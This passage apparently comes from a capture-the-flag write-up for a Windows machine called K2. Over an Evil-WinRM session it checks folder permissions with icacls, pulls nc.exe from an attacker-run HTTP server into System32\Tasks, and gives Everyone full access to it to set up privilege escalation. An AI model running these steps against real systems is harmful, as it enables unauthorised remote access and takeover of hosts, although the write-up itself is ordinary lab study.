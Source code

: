 <p align="center">Identified (F) Full Access for j.smith to C:\Scripts.</p>

```bash
*Evil-WinRM* PS C:\Users\j.smith\Documents> icacls C:\Scripts
C:\Scripts K2\j.smith:(F)
           K2\o.armstrong:(F)
           NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
           BUILTIN\Administrators:(I)(OI)(CI)(F)
           BUILTIN\Users:(I)(OI)(CI)(RX)
           BUILTIN\Users:(I)(CI)(AD)
           BUILTIN\Users:(I)(CI)(WD)
           CREATOR OWNER:(I)(OI)(CI)(IO)(F)

Successfully processed 1 files; Failed processing 0 files
```

<p align="center">Which is not the case to C:\Scripts\backup.bat.</p>

```bash
*Evil-WinRM* PS C:\Users\j.smith\Documents> icacls C:\Scripts\backup.bat
C:\Scripts\backup.bat NT AUTHORITY\SYSTEM:(I)(F)
                      BUILTIN\Administrators:(I)(F)
                      BUILTIN\Users:(I)(RX)
                      K2\o.armstrong:(I)(F)

Successfully processed 1 files; Failed processing 0 files
```

<p align="center">Copied nc.exe into the Target.</p>

```bash
:~/K2# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```bash
*Evil-WinRM* PS C:\Scripts> curl http://xx.xxx.xxx.xxx:8000/nc.exe -o C:\Windows\System32\Tasks\nc.exe
```

```bash
:~/K2# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
xx.xxx.xxx.xx - - [30/Sep/2025 xx:xx:xx] "GET /nc.exe HTTP/1.1" 200 -
```

<img width="1922" height="232" alt="{D970E571-8856-4FC4-B764-A14402673FAA}" src="https://github.com/user-attachments/assets/444fbd5c-334a-49b5-b6e0-9392036b5eea" />

<br>
<br>
<br>

<p align="center">Granted Full Access to Everyone.</p>

```bash
*Evil-WinRM* PS C:\Scripts> icacls C:\Windows\System32\Tasks\nc.exe /grant Everyone:F
processed file: C:\Windows\System32\Tasks\nc.exe
Successfully processed 1 files; Failed processing 0 files
```
